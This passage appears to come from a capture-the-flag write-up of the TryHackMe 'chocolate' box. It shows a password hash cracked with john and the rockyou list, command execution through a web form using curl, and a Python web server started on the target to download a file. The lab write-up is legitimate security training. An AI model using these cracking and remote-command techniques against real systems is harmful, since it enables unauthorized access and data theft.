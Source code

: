 now i tried `john` to help crack the hash.

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt charlie_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
c****4           (charlie)
1g 0:00:01:36 DONE (2022-10-29 08:02) 0.01032g/s 10165p/s 10165c/s 10165C/s cocker123..cloe1992
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

after a while i got a hit. and used the password and username on the login page.
then i was presented with an input field, that executed shell commands.

![image](/images/Pasted image 20221029140409.png)

the output was not very readable and i switched to `curl`

![image](/images/Pasted image 20221029140521.png)

 i listed the current directory and was presented with one particular interesting file `key_rev_key`

```shell
$ curl -X POST --data "command=ls -la" http://chocolate.thm/home.php/

<div class="cmd">
        <form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
    </form>
</form>
total 1152
drwxr-xr-x 2 root    root       4096 Oct  6  2020 .
drwxr-xr-x 3 root    root       4096 Sep 29  2020 ..
-rw------- 1 root    root      12288 Oct  1  2020 .swp
-rw-rw-r-- 1 charlie charley   65719 Sep 30  2020 home.jpg
-rw-rw-r-- 1 charlie charley     695 Sep 30  2020 home.php
-rw-rw-r-- 1 charlie charley 1060347 Sep 30  2020 image.png
-rw-rw-r-- 1 charlie charley    1466 Oct  1  2020 index.html
-rw-rw-r-- 1 charlie charley     273 Sep 29  2020 index.php.bak
-rw-r--r-- 1 charlie charley    8496 Sep 30  2020 key_rev_key
-rw-rw-r-- 1 charlie charley     303 Sep 30  2020 validate.php
</body>
</html> 

```

to read it i had to download the file. to do this i started a simple web server on the box.

```shell
$ curl -X POST --data "command=python3 -m http.serve 80" http://chocolate.thm/home.php/
```
